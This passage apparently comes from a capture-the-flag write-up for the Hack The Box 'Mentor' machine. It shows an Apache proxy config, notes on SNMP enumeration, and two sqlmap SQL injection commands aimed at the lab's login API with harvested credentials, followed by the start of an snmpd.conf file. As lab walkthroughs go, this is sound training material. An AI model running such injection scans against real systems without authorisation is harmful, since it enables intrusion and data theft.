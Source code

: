```xml
	ServerName api.mentorquotes.htb
	ServerAdmin admin@mentorquotes.htb
	ProxyPass / http://172.22.0.1:8000/
	ProxyPassReverse / http://172.22.0.1:8000/
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet


```

The `/etc/apache2/sites-enabled/000-default.conf`  shows the web app is proxied via  `172.22.0.1:81` while the api app is proxied via `172.22.0.1:8000`. One of the hunch that came to mind while enumerating the SNMP following the findings gathered was to run a sqlmap as shown in the code block. However that was futile. My best guess was that the proxy has to be on my local machine.

```shell
# sqlmap via proxy
sqlmap -u 'http://api.mentorquotes.htb/auth/login' \
--method POST \
--header 'Content-Type: application/json' \
--data '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "kj23sadkj123as0-d213"
}' \
--proxy 'http://172.22.0.1:8000' \
--threads 10 --level 5 --risk=3 \ 
--dbms PostgreSQL --dbs \
--random-agent --batch

# sqlmap with proxy
sqlmap -u 'http://api.mentorquotes.htb/auth/login' \
--method POST \
--header 'Content-Type: application/json' \
--data '{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password": "kj23sadkj123as0-d213"
}' \
--threads 10 --level 5 --risk=3 \ 
--dbms PostgreSQL --dbs \
--random-agent --batch

```

[/etc/snmp/snmpd.conf](#/etc/snmp/snmpd.conf)
```text
###########################################################################
#
# snmpd.conf
# An example configuration file for configuring the Net-SNMP agent ('snmpd')
# See snmpd.conf(5) man page for details
#
###########################################################################
# SECTION: System Information Setup
#

# syslocation: The [typically physical] location of the system.
#   Note that setting this value here means that when trying to
#   perform an snmp SET operation to the sysLocation.0 variable will make
#   the agent return the "notWritable" error code.  IE, including
```